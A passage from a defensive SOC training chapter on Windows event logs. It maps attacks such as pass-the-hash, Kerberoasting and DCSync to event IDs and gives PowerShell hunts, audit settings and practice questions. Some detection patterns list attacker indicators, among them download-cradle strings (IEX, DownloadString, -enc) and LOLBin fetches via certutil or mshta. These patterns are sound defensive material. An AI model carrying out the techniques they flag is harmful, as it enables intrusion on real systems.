A NewCredentials (Type 9) logon means alternate credentials were injected for network use without a normal interactive logon — the fingerprint of `runas /netonly`, Mimikatz `sekurlsa::pth`, and over-pass-the-hash. Pair it with a prior Sysmon 10 LSASS access and you have theft→reuse.

### PsExec / SMB lateral movement

```
Target host:  4624 LogonType=3  +  7045 (service installed, e.g. "PSEXESVC")
              5140/5145 (ADMIN$ / IPC$ share access)
              4688 parent=services.exe child=cmd.exe/the payload
```

PsExec copies a service binary to ADMIN$, registers a service (7045), and runs it as SYSTEM — a Type-3 logon plus a new service plus share access on the target is the classic remote-exec signature (T1021.002).

### Kerberoasting (on the DC)

```
Many 4769  Service_Name=<various SPNs>  Ticket_Encryption_Type=0x17 (RC4)
  Account_Name=<one user>  in a short window
```

### DCSync

```
4662  Object_Server=DS  Access Mask includes DS-Replication-Get-Changes
  {1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}  Account=<non-DC machine/user>
```

Only real domain controllers should replicate; a 4662 with the replication GUID from anything else is DCSync (T1003.006).

### Golden Ticket

```
4769 (service ticket) with NO preceding 4768 (TGT request) for that account
  + anomalous ticket lifetime; account that "authenticated" but has no 4624
```

Forged TGTs skip the AS-exchange, so a TGS with no matching TGT, or logons by an account with no real authentication trail, raises Golden-Ticket suspicion (T1558.001).

### Scheduled-task / service persistence

```
4698 (task created) Task_Name=\Microsoft\Windows\... running a suspicious binary
7045/4697 (service installed) Service_File_Name in temp/ADMIN$ path
```

### Malicious use of built-in tools (LOLBins)

```
4688/Sysmon1  Image= certutil.exe|bitsadmin.exe|mshta.exe|regsvr32.exe|rundll32.exe
  CommandLine has http/ftp/scriptlet/DownloadString
```

Each of these is a query you already wrote in SPL/KQL/EQL — this chapter shows you the raw events those queries match, so you can recognize the attack even without the SIEM. **IR use case:** on a live host with no agent, these signatures let you triage directly with `Get-WinEvent` in minutes.

## Part 11c: A Get-WinEvent Detection Gallery

Ten host-level hunts you can run directly on a box or against exported EVTX — the native equivalent of the SIEM galleries in Chapters 4–6.

```powershell
# 1. Brute force: failed logons grouped by source
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4625} |
  Group-Object { $_.Properties[19].Value } | Sort-Object Count -Descending |
  Select-Object Count, Name -First 10

# 2. Success right after many failures (per account) - review manually
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4624,4625} |
  Sort-Object TimeCreated

# 3. New user account created
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4720}

# 4. Added to a privileged group (Domain Admins / Administrators)
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4728,4732} |
  Where-Object { $_.Message -match 'Admins|Administrators' }

# 5. Encoded / suspicious PowerShell (script block)
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational';Id=4104} |
  Where-Object { $_.Message -match 'FromBase64String|IEX|DownloadString|-enc' }

# 6. Office spawning a script interpreter (needs cmdline auditing / Sysmon)
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4688} |
  Where-Object { $_.Message -match 'winword|excel|outlook' -and $_.Message -match 'powershell|cmd|mshta' }

# 7. New service installed
Get-WinEvent -FilterHashtable @{LogName='System';Id=7045} |
  Select-Object TimeCreated, @{n='Svc';e={$_.Properties[0].Value}}, @{n='Path';e={$_.Properties[1].Value}}

# 8. Scheduled task created
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4698}

# 9. LSASS access (Sysmon 10)
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';Id=10} |
  Where-Object { $_.Message -match 'lsass\.exe' -and $_.Message -notmatch 'MsMpEng|wininit|csrss' }

# 10. Security log cleared
Get-WinEvent -FilterHashtable @{LogName='Security';Id=1102}
```

The pattern mirrors the SIEM chapters: constrain to the log + ID with `-FilterHashtable`, then key on the behavior/fields. Run these on a suspect host and you have a working host-based detection capability with zero extra tooling.

## Part 11d: Configuring Audit Policy (Turning the Logs On)

Because the best events are off by default, knowing *how* to enable them is core knowledge. Two levers: `auditpol` (per-host) and Group Policy (fleet-wide).

```cmd
:: See current audit policy
auditpol /get /category:*

:: Enable process creation auditing (for 4688)
auditpol /set /subcategory:"Process Creation" /success:enable

:: Enable logon/account-management/DS-access auditing
auditpol /set /subcategory:"Logon" /success:enable /failure:enable
auditpol /set /subcategory:"User Account Management" /success:enable
auditpol /set /subcategory:"Directory Service Access" /success:enable   :: DCSync (4662)
```

Then enable **command line in 4688** and **PowerShell logging** via Group Policy:

```
Computer Config > Admin Templates > System > Audit Process Creation
  > "Include command line in process creation events" = Enabled     (adds CommandLine to 4688)

Computer Config > Admin Templates > Windows Components > Windows PowerShell
  > "Turn on Module Logging" = Enabled
  > "Turn on PowerShell Script Block Logging" = Enabled            (4104, deobfuscated)
```

On domain controllers, ensure **Account Logon** (Kerberos 4768/4769/4771) and **DS Access** (4662) auditing are on — that is what makes the Part 5 AD detections possible. The guidance: adopt Microsoft's audit-policy baseline (or the CIS benchmark) rather than hand-picking, then layer Sysmon for the depth native logs lack. **Blue team usage:** run `auditpol /get /category:*` during onboarding of any Windows source — a surprising number of "we have no visibility" problems are simply auditing that was never enabled.

## Part 11e: Knowing Normal — Core Windows Processes

You cannot spot the abnormal without knowing normal, and process-creation events (4688/Sysmon 1) only make sense against a baseline of legitimate Windows processes. The essentials every analyst memorizes:

| Process | Normal parent | Path | Notes |
|---------|---------------|------|-------|
| `System` (PID 4) | — | — | Kernel; one instance |
| `smss.exe` | System | System32 | Session Manager; spawns csrss/wininit |
| `csrss.exe` | smss (exits) | System32 | One per session; never a child process |
| `wininit.exe` | smss (exits) | System32 | Spawns services/lsass |
| `services.exe` | wininit | System32 | Parent of most services |
| `lsass.exe` | wininit | System32 | **One instance; anything accessing it = suspect** |
| `svchost.exe` | services.exe | System32 | Many instances; parent should be services.exe |
| `winlogon.exe` | smss (exits) | System32 | Spawns userinit → explorer |
| `explorer.exe` | userinit (exits) | Windows | The user shell |

Red flags that jump out against this baseline: an `lsass.exe` with a *child process* or running from the wrong path (masquerading, T1036), a `svchost.exe` whose parent is *not* services.exe (a common malware masquerade), a second `csrss.exe`, or any core process running from `%TEMP%`/a user directory instead of System32. The winword→powershell chain from Chapter 3 is exactly an *abnormal parent-child* relationship — and you can only call it abnormal because you know the normal tree. Internalizing this baseline is what turns 4688/Sysmon-1 review from guessing into recognition.



## Part 11f: Object Access, File, and Registry Auditing

Two more auditing categories catch collection and persistence when enabled, and they are worth calling out because they are commonly overlooked.

**Object access (4663) — the collection detector.** With *Audit Object Access* + a **SACL** (System Access Control List) on a sensitive folder, Windows logs **4663** every time the audited object is read/written, recording the account and the access. This is how you catch the Chapter 1 payroll-file access and Chapter 3's Collection tactic on a file server:

```
4663  Object_Name=\\FILE01\Finance\payroll.xlsx  Accesses=ReadData
  Subject_User_Name=m.singh  Process_Name=explorer.exe
```

Enable it selectively — a SACL on *everything* is deafening; put SACLs on the crown-jewel shares (finance, HR, source, backups) and alert on access by unexpected identities. Related: **4656** (handle requested), **4660** (object deleted), **5140/5145** (network share access — great for lateral-movement and data-staging detection).

**Registry auditing (4657).** With object-access auditing extended to registry keys, **4657** logs modifications to audited keys — persistence via Run keys, service configs, and security-tool disablement. Sysmon 12–14 usually covers this with less configuration overhead, but native 4657 is available where Sysmon is not deployed.

The theme repeats: **the events exist, but the auditing must be turned on and scoped.** Object-access auditing is powerful but noisy, so target it at high-value assets rather than enabling it blanket — precision, not volume (Chapter 2).

## Part 12: Detection & Defense Angle (Consolidated)

Windows logs are the richest Windows detection source; wielding them well:

**Enable the auditing that is off by default.** The single highest-value action in a Windows shop: turn on process-creation auditing *with command line* (4688), PowerShell script-block logging (4104), object-access auditing where needed (4663), and deploy **Sysmon** with a tuned config. Most "we couldn't see it" gaps are really "we never enabled it" (Chapter 2). Use Microsoft's audit-policy baselines and a maintained Sysmon config (SwiftOnSecurity / sysmon-modular) as starting points.

**Key detections on the highest-signal events.** Some events are near-pure signal and deserve aggressive alerting regardless of context: **1102** (log cleared), **4728/4732 into Domain Admins/Administrators** (privilege escalation), **4104** with obfuscation/AMSI-bypass strings, **Sysmon 10 → lsass.exe** (credential dumping), **4662 + DS-Replication GUID from a non-DC** (DCSync), and **4769 RC4 bursts** (Kerberoasting). These are the crown-jewel Windows detections.

**Read the fields, not just the ID.** The event ID is the start; the signal is in the fields — **LogonType** on 4624 (3 vs 9 vs 10), **CommandLine** and **ParentProcessName** on 4688/Sysmon 1, **TicketEncryptionType** on 4769, **Status/SubStatus** on 4625. An analyst who reads fields catches what an ID-only rule misses.

**Ship off-box in real time and monitor integrity.** Forward logs to a central store (WEF or agents) immediately so local clearing cannot erase evidence, alert on log-clear (1102) and audit-policy-change (4719) events, and detect the *silence* of a source or a dead Sysmon channel (Chapter 2). The interesting activity is right before a gap.

**Map every Windows detection to ATT&CK and validate by emulation.** Tag detections with technique IDs (Chapter 3), and verify them by running Atomic Red Team on a lab host and confirming the events fire and the detections trigger (Chapters 3, 6). An unverified detection is a hypothesis.

**Use the right tool for the job.** `Get-WinEvent` for host-level investigation, EvtxECmd for parsing, **Chainsaw/Hayabusa** (Sigma-powered) for fast multi-EVTX triage that outputs an ATT&CK timeline. These turn a compromised host's logs into an incident narrative in minutes.

## Part 12b: EVTX Internals and Forensic Recovery

For deeper IR work it helps to understand the EVTX file itself. An `.evtx` is a binary, chunk-based file: a file header, then 64 KB **chunks**, each containing a header and a series of **event records** in a binary XML (BinXML) format with a template/substitution scheme for compactness. Records carry a monotonically increasing **EventRecordID**, which is forensically useful: gaps or resets in the sequence can indicate tampering or a cleared/rebuilt log.

Forensic implications worth knowing:

- **Deleted-record recovery.** Because EVTX allocates chunks and records in place, tools can sometimes carve **partially-overwritten or orphaned records** from slack space even after a `Clear-EventLog`/`wevtutil cl` — one reason a "cleared" log is not always a total loss. **EvtxECmd** and specialized carvers attempt this.
- **The 1102 record itself.** Clearing writes a 1102 into the *new* (empty) log with the account that performed it — so even the act of destroying evidence leaves an attributable record.
- **Timestamps.** Records store times in UTC (FILETIME); Event Viewer renders local. Always normalize to UTC when timelining (Chapter 2).
- **Off-box copies win.** The strongest recovery is not carving at all — it is the real-time forwarded copy in your SIEM (WEF/agent), which the on-host clear cannot touch. This is why Part 8 stresses shipping off-box.

For triage you rarely parse BinXML by hand; **EvtxECmd** converts EVTX to clean CSV/JSON, and **Chainsaw/Hayabusa** read it directly. But knowing the structure explains *why* those tools can recover more than Event Viewer and why EventRecordID gaps matter during a tampering investigation.

## Part 12c: Mapping Windows Events to Your SIEM (Full Circle)

This chapter's payoff for Chapters 4–6: the same event, queried in each SIEM. Take **1102 (log cleared)**:

```
# Splunk (SPL)
index=wineventlog EventCode=1102 | table _time, host, user

# Sentinel (KQL)
SecurityEvent | where EventID == 1102 | project TimeGenerated, Computer, Account

# Elastic (ES|QL)
FROM logs-* | WHERE event.code == "1102" | KEEP @timestamp, host.name, user.name

# On the host (PowerShell)
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=1102}
```

And **4769 RC4 Kerberoasting**:

```
# Splunk
index=wineventlog EventCode=4769 Ticket_Encryption_Type=0x17
| stats dc(Service_Name) by Account_Name | where dc(Service_Name) > 5

# Sentinel
SecurityEvent | where EventID==4769 and TicketEncryptionType=="0x17"
| summarize dcount(ServiceName) by Account | where dcount_ServiceName > 5

# Elastic ES|QL
FROM logs-* | WHERE event.code=="4769" AND winlog.event_data.TicketEncryptionType=="0x17"
| STATS s=COUNT_DISTINCT(winlog.event_data.ServiceName) BY user.name | WHERE s>5
```

The four expressions are the same idea against the same Windows event — which is the whole thesis of the SIEM sequence: **know the event (this chapter), and the query is trivial in any platform.** Field names differ (`Service_Name` / `ServiceName` / `winlog.event_data.ServiceName`) because of each SIEM's normalization (CIM/ASIM/ECS), but the event ID and the RC4 tell are constant. Source knowledge is the durable skill; the SIEM is the surface.

## Part 13: Common Mistakes & How to Avoid Them

- **Assuming command lines are logged.** By default 4688 omits the command line and PowerShell script blocks are not logged. Enable them, or your best detections silently see nothing (Chapter 2).
- **Filtering by log Level.** A successful logon is "Information," a cleared log is "Information" — security importance is not operational Level. Filter by Event ID and fields, not Level (Chapter 2).
- **Reading only the Event ID.** 4624 alone is noise; 4624 with LogonType 9/10 and a 4672 is a story. The fields carry the signal.
- **Ignoring timezone.** Event Viewer shows local time; EVTX stores UTC; mixed clocks corrupt timelines. Standardize on UTC (Chapter 2).
- **Not deploying/tuning Sysmon.** Native logs miss hashes, process-tied network connections, and LSASS access. Deploy Sysmon with a tuned config; an untuned one drowns you, a missing one blinds you.
- **Trusting local logs alone.** Attackers clear them (1102). Forward off-box in real time and alert on the clear itself.
- **Slow queries with `Where-Object`.** Filter with `-FilterHashtable`/`-FilterXPath` at the engine, not by piping everything to `Where-Object` — the same "filter early" rule as every SIEM.
- **Forgetting the DC events.** Kerberos attacks (Kerberoasting, AS-REP, DCSync) are caught on the *domain controllers'* logs (4768/4769/4662), not the workstation. Collect DC security logs.

## Part 14: Final Revision / Summary

Windows logging is organized into **channels** (Security, System, Application, and granular Applications-and-Services logs like PowerShell/Operational and Sysmon/Operational), stored as **EVTX** files and governed by **audit policy** — and the highest-value auditing (command lines, script blocks, object access) is **off by default**, so enabling it is the biggest free visibility win. Every event has an **Event ID** plus **EventData** fields where the signal lives.

**Logon events** — 4624 (success), 4625 (failure) — are read through **LogonType**: 2 interactive, 3 network, 9 NewCredentials (pass-the-hash tell), 10 RDP, etc. Around them: 4634/4647 logoff, 4648 explicit-cred logon, 4672 special privileges, 4740 lockout. The **essential Security IDs** cover account/group changes (4720, 4728/4732 into admin groups = high signal), process creation (**4688** — enable command-line auditing! — with parent process), service/task persistence (7045/4697/4698), and tampering (**1102** log cleared, 4719 audit change, 4663 object access). **Kerberos/AD events** on DCs catch the marquee attacks: **4769 + RC4** = Kerberoasting, **4768 + PreAuth=0** = AS-REP roasting, **4662 + DS-Replication GUID from non-DC** = DCSync. **Command-line auditing (4688)** and **PowerShell script-block logging (4104 — deobfuscates even encoded commands)** are essential for fileless/LOLBin detection.

**Sysmon** turns Windows into a rich sensor: ID 1 (process + hash + parent), 3 (network), 10 (**LSASS access → credential dumping**), 11 (file create), 12–14 (registry), 22 (DNS) — deployed with a tuned config and feeding every SIEM. **Anti-forensics** shows up as 1102/104 (log clear), 4719 (audit change), and Sysmon/EDR silence — forward off-box in real time and alert on the clear and the silence. The **toolkit**: Event Viewer, `wevtutil`, `Get-WinEvent` (`-FilterHashtable`), and forensic triage with **EvtxECmd, Chainsaw, and Hayabusa** (Sigma-powered, ATT&CK-tagged). **WEF/WEC** centralizes logs natively. The **lab** read a full intrusion straight from EVTX — execution, deobfuscated PowerShell, C2, LSASS access, lateral movement, privilege change, and log-clearing — mapped to ATT&CK, proving that half the story would be invisible without enabled auditing.

## Part 15: Cheat Sheet / Quick Reference

**Channels**
- Security (auth/authz/process) · System (services 7045) · Application · PowerShell/Operational (4104) · Sysmon/Operational · TaskScheduler · WMI-Activity · Defender/Operational · TerminalServices (RDP) · Forwarded Events.
- Files: `C:\Windows\System32\winevt\Logs\*.evtx`. Auditing governed by audit policy (mostly off by default).

**Logon (4624/4625) LogonTypes**
- 2 interactive · 3 network · 4 batch · 5 service · 7 unlock · 8 cleartext · **9 NewCredentials (PtH tell)** · 10 RDP · 11 cached. Read the LogonType before anything else.

**Auth events**
- 4624 logon · 4625 failure (Status/SubStatus = why: 0xC000006A bad pw, 0xC0000064 no user, 0xC0000234 locked) · 4634/4647 logoff · 4648 explicit creds · 4672 special privileges · 4740 lockout · 4776 NTLM.

**Account/group (T1098/T1136)**
- 4720 create · 4722 enabled · 4724 pw reset · 4725 disabled · 4726 delete · 4728 global group add · 4732 local group add · 4756 universal · 4738 change · 4740 lockout. **4728/4732 into Admins = alert.**

**Execution**
- **4688 process creation** (enable cmdline!) + ParentProcessName + NewProcessName · 4689 exit · Sysmon 1 (adds SHA256/IMPHASH + parent cmdline, no native audit needed).
- The signal is the parent-child pair + the command line, not the process name alone.

**Persistence**
- 7045 service (System) · 4697 service (Security) · 4698 task created · 4702 task updated · 4657 registry modified · Sysmon 12–14 registry · WMI-Activity 5857–5861.

**Object/collection**
- 4663 object access (needs SACL) · 4656 handle requested · 4660 deleted · 5140/5145 share access. Put SACLs on crown-jewel shares only.
- 4657 registry value modified (needs audit) — persistence/config tampering.

**Kerberos / AD (on DCs)**
- 4768 AS-REQ (PreAuth=0 → AS-REP roast) · **4769 TGS-REQ (RC4 0x17 → Kerberoast)** · 4771 preauth fail · 4770 renewal · 4662 + DS-Replication GUID from non-DC → DCSync · 4769 without 4768 → Golden-ticket suspicion.

**PowerShell / WMI**
- 4104 script-block (deobfuscated) · 4103 module · transcription · WMI-Activity 5857–5861 (T1047). Watch AMSI-bypass strings, `-enc`, DownloadString.

**Defense evasion**
- **1102 Security log cleared** · 104 other log cleared · 4719 audit policy changed · Sysmon 2 timestomp · Defender 5001/5010/5012 tampering · silent Sysmon/EDR channel.
- The interesting activity is always *just before* a clear/gap. Off-box copy is the recovery.

- Script-block (4104) watch-strings: `-enc`, `FromBase64String`, `IEX DownloadString`, AMSI bypass. Transcription writes full session logs.

**Sysmon top IDs**
- 1 proc(+hash) · 2 timestomp · 3 network · 5 proc terminated · 6 driver · 7 image load · 8 CreateRemoteThread · 9 raw read · 10 **LSASS access** · 11 file create · 12–14 registry · 15 ADS · 17/18 pipes · 22 DNS · 23/26 file delete.
- Install: `Sysmon64.exe -accepteula -i config.xml`. Use SwiftOnSecurity or sysmon-modular config.

**Tools**
- Event Viewer (`eventvwr.msc`) · `wevtutil qe/epl/cl` · `Get-WinEvent -FilterHashtable/-FilterXPath` · EvtxECmd (parse to CSV/JSON) · **Chainsaw / Hayabusa** (Sigma triage → ATT&CK timeline) · DeepBlueCLI (flag suspicious).
- Rule of thumb: single host → Get-WinEvent; a pile of EVTX → Chainsaw/Hayabusa; deep parse → EvtxECmd.

**Highest-signal alerts (near-pure)**
- 1102 (log cleared) · 4728/4732 into Domain Admins/Administrators · Sysmon 10 → lsass · 4662 + DS-Replication GUID from non-DC · 4104 with AMSI-bypass.

**Get-WinEvent quick**
```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625} -MaxEvents 50
Get-WinEvent -Path .\sec.evtx -FilterXPath "*[System[(EventID=1102)]]"
# filter at the engine (fast), not with Where-Object (slow)
```

**Fast triage tools**
```bash
chainsaw hunt ./evtx -s sigma/ --mapping mappings/sigma-event-logs-all.yml
hayabusa csv-timeline -d ./evtx -o results.csv    # ATT&CK-tagged timeline
EvtxECmd.exe -d ./evtx --csv ./out                # parse EVTX to CSV
DeepBlue.ps1 .\Security.evtx                       # flag suspicious events
```

**Centralize**
- WEF → WEC (Forwarded Events) via WinRM (subscriptions), or agents (Winlogbeat/UF/AMA/Elastic Agent). Forward in real time; alert on silence.
- On DCs, collect Account Logon (4768/4769/4771) + DS Access (4662) — that's where AD attacks log.
- Use curated WEF baselines (Microsoft/NSA/Palantir) rather than forwarding everything.

**Enable first (off by default)**
- Audit Process Creation + command line · PowerShell script-block logging · object-access auditing · Sysmon (tuned config) · Kerberos auditing on DCs.

**Attack signatures at a glance**
- Brute force → many 4625, one user; spray → many 4625, many users, one source.
- Pass-the-hash → 4624 LogonType 9 (NewCredentials), often after Sysmon 10.
- PsExec → target 4624 type 3 + 7045 service + 5140/5145 share access.
- Kerberoasting → many 4769 RC4 (0x17), one account, many SPNs (on DC).
- AS-REP roasting → 4768 PreAuth=0 (on DC).
- DCSync → 4662 + DS-Replication GUID from non-DC (on DC).
- Golden ticket → 4769 without matching 4768; account with no real 4624.
- Persistence → 4698 task / 7045 service in temp path.
- LOLBins → 4688/Sysmon1 certutil/mshta/regsvr32 with http/DownloadString.
- Encoded PowerShell → 4104 with FromBase64String/IEX/-enc (deobfuscated).
- Collection → 4663/5145 access to crown-jewel shares by unexpected user.
- Log tampering → 1102 / 4719 / silent Sysmon channel.

**Core process baseline (parent → child)**
- smss → csrss/wininit/winlogon · wininit → services/lsass · services → svchost · winlogon → userinit → explorer. lsass has NO children; svchost's parent is services.exe.
- Red flags: core process from %TEMP%, wrong path, misspelled name (scvhost), or unexpected parent (winword→powershell).
- Legit process homes: nearly all core processes run from `C:\Windows\System32`.

**Enable audit policy**
```cmd
auditpol /set /subcategory:"Process Creation" /success:enable
auditpol /set /subcategory:"Directory Service Access" /success:enable   :: DCSync 4662
auditpol /get /category:*        :: verify during onboarding
```
GPO also: "Include command line in process creation events" + PowerShell Script Block Logging.

**Forensic notes**
- EVTX = 64KB chunks of BinXML records with EventRecordID (gaps = tampering). UTC storage, local render. Cleared logs may be partially carved; off-box copy is the real recovery.

**Fast triage priorities on a suspect host**
- 1102 (cleared?) → 4104 (encoded PS?) → Sysmon 10 (LSASS?) → 4688/Sysmon 1 (bad parent-child?) → 7045/4698 (persistence?) → 4624 type 9/10 + 4728/4732 (lateral/privesc?). Then timeline + map to ATT&CK.

## Part 16: Practice Labs & Resources

- **Generate & read your own** — on your Chapter 1 lab, enable the auditing from Part 11d, deploy Sysmon, run **Atomic Red Team**, export the EVTX, and work Part 11 for real. The best possible practice.
- **TryHackMe SOC Level 1 — "Windows Event Logs" and "Sysmon" rooms** — guided, beginner-friendly reps on the exact IDs and Sysmon events in this chapter.
- **SANS FOR500/FOR508 free posters and "Hunt Evil" reference** — one-page maps of Windows artifacts and lateral-movement events; pin them at your desk.
- **EVTX-ATTACK-SAMPLES (github.com/sbousseaden/EVTX-ATTACK-SAMPLES)** — a huge library of real attack EVTX mapped to ATT&CK; parse them with Chainsaw/Hayabusa and read the techniques.
- **Chainsaw and Hayabusa repos** — run their sample hunts; learn to turn a pile of EVTX into an ATT&CK timeline fast.
- **Eric Zimmerman's tools (EvtxECmd) + his free training** — the DFIR standard for EVTX parsing and timelines.
- **TryHackMe — *Windows Event Logs*, *Sysmon*, *Windows Forensics*, *Investigating Windows*, *Core Windows Processes* rooms** — hands-on event-log analysis. The *Core Windows Processes* room specifically builds the Part 11e baseline.
- **HackTheBox Academy — "Windows Event Logs & Finding Evil" and "YARA & Sigma" modules** — structured, hands-on progression through detection with these events.
- **ultimatewindowssecurity.com Event ID encyclopedia** — the definitive reference for every Security event ID and its fields; bookmark it.
- **Microsoft "Events to Monitor" / "Appendix L" recommended audit list** — the authoritative list of which event IDs to watch and at what priority.
- **Microsoft's "Audit Policy Recommendations" and the Windows 10/11 security-auditing baselines** — what to enable and why.
- **NSA/CISA "Windows Event Forwarding" guidance and Palantir's WEF subscriptions repo** — curated, production-grade WEF subscription baselines to forward exactly the right events.
- **Sysmon config repos (SwiftOnSecurity, Olaf Hartong's sysmon-modular)** — deploy a tuned config rather than defaults; read the comments to learn *why* each rule exists.
- **DeepBlueCLI** and **SANS "Hunt Evil" / Windows forensics posters** — quick references for suspicious events and artifact locations.
- **EVTX-ATTACK-SAMPLES + Chainsaw/Hayabusa** together — the fastest self-guided way to see dozens of techniques in raw events and confirm your recognition.
- **Wazuh/Elastic "Windows integration" docs** — how these events flow into the SIEMs from Chapters 4–6, closing the source-to-SIEM loop.
- **BOTS / CyberDefenders / BTLO Windows log challenges** — timed investigations reading real Windows telemetry.
- **Splunk Attack Range / DetectionLab** — generate labeled Windows/Sysmon telemetry from real attacks to read and detect.
- **Olaf Hartong's `sysmon-modular` and SwiftOnSecurity's sysmon-config** — study a production Sysmon config to learn what to log and what to tune out.
- **JPCERT "Detecting Lateral Movement through Tracking Event Logs"** — a definitive free guide mapping AD attack tools to the exact events they generate.
- **13Cubed's Windows event-log & Sysmon YouTube series** — clear, hands-on walkthroughs of the events in this chapter.
- **MITRE ATT&CK data-source pages** — cross-reference each technique to the Windows/Sysmon event that detects it, tying this chapter to Chapter 3.

### Windows-log fluency drill

Pick five techniques from the offensive notebooks (say Kerberoasting, PsExec, pass-the-hash, scheduled-task persistence, and log clearing). For each, write down (a) the exact event ID(s), (b) the field/value that is the tell, (c) which host it logs on (workstation vs DC), and (d) whether the required auditing is on by default. Doing this five times builds the recognition that lets you read an attack straight from a log — the defining skill of this chapter.

### Interview rapid-fire (Windows-log questions)

- What field distinguishes an RDP logon from a network logon in 4624? → LogonType (10 = RDP, 3 = network).
- Which LogonType suggests pass-the-hash? → 9 (NewCredentials).
- Which event ID means the Security log was cleared? → 1102.
- What makes 4688 useful vs useless? → Command-line auditing being enabled (captures the arguments + parent).
- Which event catches Kerberoasting and on which host? → 4769 with RC4 (0x17) on the domain controllers.
- What Sysmon event catches credential dumping? → Event ID 10 (ProcessAccess to lsass.exe).
- Which PowerShell event logs deobfuscated code? → 4104 (Script Block Logging).
- What does a 4728/4732 into "Domain Admins" indicate? → An account added to a privileged group — likely privilege escalation; alert.
- How do you centralize Windows logs natively? → WEF forwarding to a WEC (Forwarded Events) over WinRM.
- Name two fast EVTX triage tools. → Chainsaw and Hayabusa (Sigma-powered, ATT&CK timeline).
- Why forward logs off-box in real time? → So an attacker clearing the local log (1102) can't erase the centralized copy.
- What's abnormal about lsass.exe having a child process? → lsass should never spawn children; it suggests masquerading or injection.

### Self-check

You should be able to, without notes: list the security-relevant channels; read a 4624 by its LogonType; name the essential IDs (4624/4625/4672/4688/4720/4728/4732/4698/7045/1102/4769/4662); explain what command-line and script-block logging add and how to enable them; recite the top Sysmon IDs (1/3/10/11/22); recognize pass-the-hash, PsExec, Kerberoasting, and DCSync in the logs; use `Get-WinEvent -FilterHashtable`; and name the fast triage tools. If any is shaky, run the Part 11 lab against EVTX-ATTACK-SAMPLES.

### Capstone exercise

On your Chapter 1 lab: (1) enable the Part 11d audit policy and deploy Sysmon, (2) run five Atomic Red Team techniques spanning execution, credential access, persistence, and lateral movement, (3) export the EVTX, (4) triage with Hayabusa/Chainsaw into an ATT&CK timeline, (5) confirm each technique in the raw events with `Get-WinEvent`, (6) write the matching detection in one of your SIEMs (Chapters 4–6) and verify it fires, and (7) clear a log and confirm your off-box forwarded copy still has the evidence. This exercise integrates the entire notebook — data, techniques, SIEM, and source-reading — into one workflow, and is a portfolio-worthy demonstration of end-to-end blue-team capability.

This chapter closes the SOC & Blue Team notebook's opening arc: you now understand the SOC and its workflow (Chapter 1), the data (Chapter 2), the attacker framework (Chapter 3), the three major SIEMs and their query languages (Chapters 4–6), and — the foundation under all of them — how to read Windows events in forensic depth (Chapter 7). The next chapters build outward from here into detection engineering, threat hunting, digital forensics, and incident response, all resting on this base: know your data, map it to techniques, detect, triage, and respond.

One parting principle that unifies all seven chapters. The blue team's entire advantage is *visibility that the attacker underestimates* — the log they forgot deobfuscates their payload, the LSASS handle they opened is recorded, the service they installed is written down, and the log they cleared announces itself. But that advantage only exists if the auditing is enabled, the telemetry is collected and normalized, the detections are written and mapped to technique, and someone is watching the queue. Every chapter of this notebook has been about turning latent visibility into caught intrusions: the SOC to watch (1), the data to see with (2), the framework to reason with (3), the SIEMs to query with (4–6), and — the bedrock under it all — the Windows events to read (7). Master these and you are not memorizing a product; you are learning to see, which is the one skill no attacker can take away.

### Practice questions

1. A 4624 shows LogonType 9 (NewCredentials) for an admin account on a workstation, shortly after a Sysmon 10 event where a non-security process accessed lsass.exe. Explain what this sequence most likely represents and the two ATT&CK techniques involved.
2. Your DCs show a burst of 4769 events from one account requesting service tickets for 20 different SPNs, all with TicketEncryptionType 0x17. What attack is this, why 0x17, and why is this detection considered "cheap" to deploy?
3. Command-line auditing is disabled in your environment. List two specific detections from earlier chapters that will silently fail, and the exact settings you would enable to fix it.
4. You are handed exported EVTX from a compromised host and have ten minutes. Which tools do you reach for and what output do they give you? Why is this faster than Event Viewer?
5. A Security log shows a 1102 at 02:14. Explain what it means, why it is high-signal, what you can still recover, and where the interesting activity is relative to that timestamp.
6. On a workstation you see 4688 events but the `CommandLine` field is empty. What is misconfigured, and which two events/settings would you check or change?
7. You suspect DCSync. On which host do you look, which event ID, and which specific field value confirms it?
8. Describe the normal parent of `svchost.exe` and what it means if you find a `svchost.exe` whose parent is `powershell.exe` running from `%TEMP%`.

### Answer notes

1. LSASS credential theft then reuse: **T1003.001** (Sysmon 10 access to lsass) followed by **T1550.002 Pass the Hash** (the LogonType 9 NewCredentials logon with the stolen material). The pairing is a classic dump-then-reuse chain on a privileged account.
2. **Kerberoasting (T1558.003).** RC4 (0x17) because RC4-encrypted service tickets are crackable offline for the service account's password; cheap because the 4769 data already exists on the DCs — you only add the rule.
3. The **"Office→script interpreter"** and **encoded-PowerShell** command-line detections fail. Fix: enable *Audit Process Creation* and the GPO *Include command line in process creation events* (for 4688), and enable PowerShell **Script Block Logging** (4104) — or deploy Sysmon.
4. Reach for **Chainsaw/Hayabusa** for an instant ATT&CK-tagged timeline across all the EVTX, and **EvtxECmd** to parse specific logs to CSV. Faster than Event Viewer because they apply hundreds of Sigma/detection rules across many files at once and output a prioritized, mapped timeline instead of manual per-log filtering.
5. **1102 = Security log cleared (T1070.001)** — high-signal because legitimate clears are rare and change-controlled. You can still recover evidence from the **real-time off-box forwarded copy** (WEF/agent to SIEM), and possibly carve orphaned records with EvtxECmd. The interesting activity is **just before 02:14** — logs are cleared after the fact.
6. **Command-line auditing is not enabled.** 4688 fires but without arguments. Check/enable *Audit Process Creation* (auditpol/GPO) and the Administrative-Templates GPO *Include command line in process creation events*; Sysmon Event ID 1 is a robust alternative that captures the command line regardless.
7. Look on the **domain controllers**, at **Event ID 4662**, where the access includes the **DS-Replication-Get-Changes GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`** from a principal that is not a domain controller. Only real DCs replicate, so that is the DCSync (T1003.006) confirmation.
8. `svchost.exe` should be a child of **services.exe** and run from `System32`. A `svchost.exe` whose parent is `powershell.exe` and which runs from `%TEMP%` is almost certainly **masquerading malware (T1036)** — a fake process using a trusted name to blend in; it should be treated as a high-priority true positive.

### Answer notes
